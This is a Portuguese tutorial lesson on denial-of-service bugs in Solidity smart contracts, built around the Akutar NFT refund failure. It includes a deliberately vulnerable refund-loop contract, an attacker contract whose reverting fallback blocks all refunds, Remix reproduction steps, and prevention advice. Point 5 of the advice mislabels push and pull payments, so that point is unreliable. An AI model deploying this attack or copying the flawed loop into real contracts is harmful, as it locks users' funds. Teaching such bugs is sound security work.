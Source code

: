 ```yaml
---
title: S09. Negando Serviço
tags:
  - solidity
  - segurança
  - fallback
---
```


# Segurança de Contratos Inteligentes, WTF Solidity: S09. Negando Serviço

Recentemente, eu tenho revisado meus conhecimentos em solidity para consolidar detalhes sobre a linguagem e criar um guia "WTF Solidity: Introdução Básica" para pessoas iniciantes (esse guia não é para pessoas que já são especialistas em programação). Serão lançadas de 1 a 3 lições por semana.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

Comunidade: [Discord](https://discord.gg/5akcruXrsk)｜[Grupo WeChat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Todo o código e os tutoriais estão disponíveis no GitHub: [github.com/AmazingAng/WTFSolidity](https://github.com/AmazingAng/WTF-Solidity)

---

Nesta lição, vamos discutir a vulnerabilidade de negação de serviço (DoS) em contratos inteligentes e abordar maneiras de evitar esse tipo de problema. O projeto de NFTs Akutar perdeu 11.539 ETH, o que correspondia a aproximadamente 34 milhões de dólares na época, devido a um bug de DoS.

## DoS

No contexto da Web 2.0, um ataque de negação de serviço (DoS) ocorre quando um servidor é interrompido e não consegue fornecer serviços aos usuários legítimos devido ao envio de grande volume de lixo de informações ou interferências de informações pelo atacante. No Web3, uma DoS em contrato inteligente ocorre quando uma vulnerabilidade é explorada de forma que o contrato não consiga funcionar corretamente.

Em abril de 2022, um projeto de NFT chamado Akutar utilizou um leilão holandês para distribuição de tokens e arrecadou 11.539,5 ETH, tornando-se um grande sucesso. Anteriormente, os participantes da comunidade que possuíam o "Pass" desse projeto deveriam receber 0,5 ETH de reembolso. No entanto, quando eles tentaram processar os reembolsos, descobriram que o contrato inteligente tinha um bug de negação de serviço e todos os fundos ficaram presos. O contrato do Akutar tinha uma vulnerabilidade de DoS.

![](./img/S09-1.png)

## Exemplo de Vulnerabilidade

Abaixo, vamos examinar um contrato chamado `DoSGame` que representa uma versão simplificada do contrato do Akutar. A lógica desse contrato é bastante simples: quando o jogo começa, os jogadores fazem chamadas à função `deposit()` para depositar seus tokens ETH e o contrato registra seus endereços e saldos correspondentes. Quando o jogo termina, a função `refund()` é chamada para reembolsar os jogadores com seus ETH.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.21;

// Jogo com vulnerabilidade de DoS - os jogadores fazem depósitos e, quando o jogo termina, recebem seus reembolsos
contract DoSGame {
    bool public refundFinished;
    mapping(address => uint256) public balanceOf;
    address[] public players;

    // Todos os jogadores fazem depósitos no contrato
    function deposit() external payable {
        require(!refundFinished, "Game Over");
        require(msg.value > 0, "Please donate ETH");
        // Registra o saldo do jogador
        balanceOf[msg.sender] = msg.value;
        // Registra os endereços dos jogadores
        players.push(msg.sender);
    }

    // O jogo termina, os reembolsos começam a ser processados sequencialmente
    function refund() external {
        require(!refundFinished, "Game Over");
        uint256 pLength = players.length;
        // Reembolsa todos os jogadores em um loop
        for(uint256 i; i < pLength; i++){
            address player = players[i];
            uint256 refundETH = balanceOf[player];
            (bool success, ) = player.call{value: refundETH}("");
            require(success, "Refund Fail!");
            balanceOf[player] = 0;
        }
        refundFinished = true;
    }

    function balance() external view returns(uint256){
        return address(this).balance;
    }
}
```

O bug nesse contrato está na função `refund()`. Quando os reembolsos são processados sequencialmente em um loop e a função `call` é utilizada para transferir os ETHs de volta para os jogadores, isso permite que um endereço malicioso execute algum código mal-intencionado em seu contrato durante esse processo.

```
(bool success, ) = player.call{value: refundETH}("");
```

Em seguida, escrevemos um contrato de ataque em que a função `attack()` permite que o endereço malicioso faça um depósito e participe do jogo. A função `fallback()` é uma função de retorno que rejeita todas as transações enviadas para o contrato, atacando a vulnerabilidade de DoS do contrato `DoSGame`. Isso ocorre porque a sequência de reembolsos não pode ser executada corretamente e os fundos ficarão presos no contrato, assim como os mais de 10.000 ETHs no contrato Akutar.

```solidity
contract Attack {
    // Ataque DoS quando os reembolsos são processados
    fallback() external payable{
        revert("DoS Attack!");
    }

    // Participa do jogo DoS e faz um depósito
    function attack(address gameAddr) external payable {
        DoSGame dos = DoSGame(gameAddr);
        dos.deposit{value: msg.value}();
    }
}
```

## Reprodução no Remix

**1.** Implante o contrato `DoSGame`.
**2.** Chame a função `deposit()` do contrato `DoSGame` para depositar e participar do jogo.
![](./img/S09-2.png)
**3.** Neste ponto, se você chamar a função `refund()` do contrato `DoSGame`, você receberá um reembolso normalmente.
！[](./img/S09-3.jpg)
**4.** Implante novamente o contrato `DoSGame` e implante o contrato `Attack`.
**5.** Chame a função `attack()` do contrato `Attack` para fazer um depósito e participar do jogo.
！[](./img/S09-4.jpg)
**6.** Chame a função `refund()` do contrato `DoSGame` para receber um reembolso e descubra que a transação não é bem sucedida, pois o ataque teve êxito.
！[](./img/S09-5.jpg)

## Medidas Preventivas

Vários erros lógicos podem levar a um DoS em um contrato inteligente, portanto, os desenvolvedores devem ter muito cuidado ao escrever contratos. Abaixo estão algumas áreas que requerem especial atenção:

1. Falhas na chamada de funções de contratos externos (por exemplo, `call`) não devem bloquear recursos importantes. Por exemplo, é possível remover a linha `require(success, "Refund Fail!");` do contrato que possui a falha para que o reembolso se prossiga mesmo se uma única transação falhar.
2. O contrato não deve se auto-destruir inesperadamente.
3. O contrato não deve entrar em loops infinitos.
4. Os parâmetros das funções `require` e `assert` devem ser definidos corretamente.
5. No processo de reembolso, é recomendável permitir que os usuários retirem os fundos por conta própria (push), em vez de realizar um envio em massa de fundos (pull).
6. Verifique se as funções de retorno (fallback) não afetam o funcionamento normal do contrato.
7. Certifique-se de que as principais funcionalidades do contrato ainda possam ser executadas mesmo que o envolvimento dos participantes (como o `owner`) nunca aconteça.

## Conclusão

Nesta lição, falamos sobre a vulnerabilidade de negação de serviço em contratos inteligentes. O projeto Akutar perdeu mais de 10.000 ETHs devido a essa vulnerabilidade. Vários erros lógicos podem levar a DoS, então os desenvolvedores precisam ter muito cuidado ao escrever contratos inteligentes, como permitir que os usuários cliem os seus próprios reembolsos ao invés de realizar um envio em massa de fundos para eles.

